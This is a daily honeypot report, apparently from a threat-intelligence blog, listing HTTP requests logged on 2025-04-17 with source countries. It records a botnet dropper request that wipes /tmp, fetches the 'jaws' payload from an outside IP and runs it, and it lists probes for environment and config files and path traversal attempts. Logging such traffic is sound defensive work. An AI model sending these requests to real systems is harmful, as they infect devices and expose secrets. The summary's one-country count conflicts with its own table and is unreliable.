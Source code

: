 ```yaml
---
title: "Report: 2025-04-17 "
date: 2025-04-17
desciption: "Report: 2025-04-17" 
tags: [repport, daily]
---
```



# Daily Report: 2025-04-17 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 1 stage 1 IP address(es), linked to 1 dropper URL(s).  

There are 23 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 1633 requests were recorded during the day, originating from 1 different countries, with a peak of 304 requests coming from US.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| US               | Germany            |
| US               | Germany            |
| SG               | Germany            |
| US               | Germany            |
| SG               | Germany            |
| US               | Dubai              |

## botnet_dropper_behaviour
| remote_addr   | request                                                                 |
|:--------------|:------------------------------------------------------------------------|
| 190.72.152.73 | GET /shell?cd+/tmp;rm+-rf+*;wget+31.58.51.98/jaws;sh+/tmp/jaws HTTP/1.1 |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                                                                                                                                                                                                                                                                                                                                              |
|----:|----------------------:|:-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
|  61 |                     4 | HEAD /manager/html HTTP/1.1                                                                                                                                                                                                                                                                                                                          |
| 209 |                     1 | GET /odinhttpcall1744884160 HTTP/1.1                                                                                                                                                                                                                                                                                                                 |
| 210 |                     1 | GET /OdinHttpCall1744884160 HTTP/1.1                                                                                                                                                                                                                                                                                                                 |
| 224 |                     1 | GET /..;/env.test.js HTTP/1.1                                                                                                                                                                                                                                                                                                                        |
| 225 |                     1 | GET /..;/env.production.js HTTP/1.1                                                                                                                                                                                                                                                                                                                  |
| 226 |                     1 | GET /..;/env.prod.js HTTP/1.1                                                                                                                                                                                                                                                                                                                        |
| 253 |                     1 | GET /Odin/http/call1744884160 HTTP/1.1                                                                                                                                                                                                                                                                                                               |
| 298 |                     1 | GET /odinhttpcall1744905457 HTTP/1.1                                                                                                                                                                                                                                                                                                                 |
| 310 |                     1 | GET /OdinHttpCall1744905457 HTTP/1.1                                                                                                                                                                                                                                                                                                                 |
| 316 |                     1 | \x12\x01\x00^\x00\x00\x01\x00\x00\x00$\x00\x06\x01\x00*\x00\x01\x02\x00+\x00\x01\x03\x00,\x00\x04\x04\x000\x00\x01\x05\x001\x00$\x06\x00U\x00\x01\xFF\x04\x07\x0C\xBC\x00\x00\x00\x00\x00\x00\x15\xD0\x00\xAF/\xA3h\xF6\x7F\x00\x00\x80\xFB\x9F\xAE\x82\x00\x00\x00\xE0\x81\xC8h\xF6\x7F\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01 |
| 325 |                     1 | GET /Odin/http/call1744905457 HTTP/1.1                                                                                                                                                                                                                                                                                                               |
| 346 |                     1 | POST /ztp/cgi-bin/handler HTTP/1.1                                                                                                                                                                                                                                                                                                                   |
| 361 |                     1 | GET /assets/configs.json HTTP/1.1                                                                                                                                                                                                                                                                                                                    |
| 365 |                     1 | GET /app.config.json HTTP/1.1                                                                                                                                                                                                                                                                                                                        |
| 368 |                     1 | GET /..;/env.development.js HTTP/1.1                                                                                                                                                                                                                                                                                                                 |
| 369 |                     1 | GET /..;/env.dev.js HTTP/1.1                                                                                                                                                                                                                                                                                                                         |
| 374 |                     1 | GET /env.dev.js HTTP/1.1                                                                                                                                                                                                                                                                                                                             |
| 375 |                     1 | GET /web/api/config.js HTTP/1.1                                                                                                                                                                                                                                                                                                                      |
| 376 |                     1 | GET /src/api/config.js HTTP/1.1                                                                                                                                                                                                                                                                                                                      |
| 377 |                     1 | GET /src/config.js HTTP/1.1                                                                                                                                                                                                                                                                                                                          |
| 378 |                     1 | GET /web/config.js HTTP/1.1                                                                                                                                                                                                                                                                                                                          |
| 379 |                     1 | GET /assets/env.js HTTP/1.1                                                                                                                                                                                                                                                                                                                          |
| 387 |                     1 | GET /env.production.js HTTP/1.1                                                                                                                                                                                                                                                                                                                      |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                   304 | US                 |
|  1 |                   294 | NL                 |
|  2 |                   170 | DE                 |
|  3 |                   169 | BG                 |
|  4 |                   166 | GB                 |
|  5 |                   130 | SC                 |
|  6 |                    65 | HK                 |
|  7 |                    58 | PL                 |
|  8 |                    42 | LT                 |
|  9 |                    40 | RO                 |
| 10 |                    20 | IL                 |
| 11 |                    14 | SG                 |
| 12 |                    13 | NO                 |
| 13 |                    13 | AU                 |
| 14 |                    10 | PT                 |
| 15 |                    10 | RU                 |
| 16 |                     8 | ZA                 |
| 17 |                     8 | LA                 |
| 18 |                     8 | GH                 |
| 19 |                     8 | IN                 |
| 20 |                     7 | AO                 |
| 21 |                     7 | FR                 |
| 22 |                     7 | CN                 |
| 23 |                     6 | BR                 |
| 24 |                     6 | BE                 |
| 25 |                     6 | TR                 |
| 26 |                     5 | UA                 |
| 27 |                     5 | VN                 |
| 28 |                     4 | MC                 |
| 29 |                     4 | CA                 |
| 30 |                     4 | KR                 |
| 31 |                     4 | BA                 |
| 32 |                     3 | NG                 |
| 33 |                     3 | JP                 |
| 34 |                     3 | IR                 |
| 35 |                     2 | EC                 |
| 36 |                     1 | AM                 |
| 37 |                     1 | IE                 |
| 38 |                     1 | IT                 |
| 39 |                     1 | HU                 |
| 40 |                     1 | CG                 |
| 41 |                     1 | VE                 |
| 42 |                     1 | SI                 |
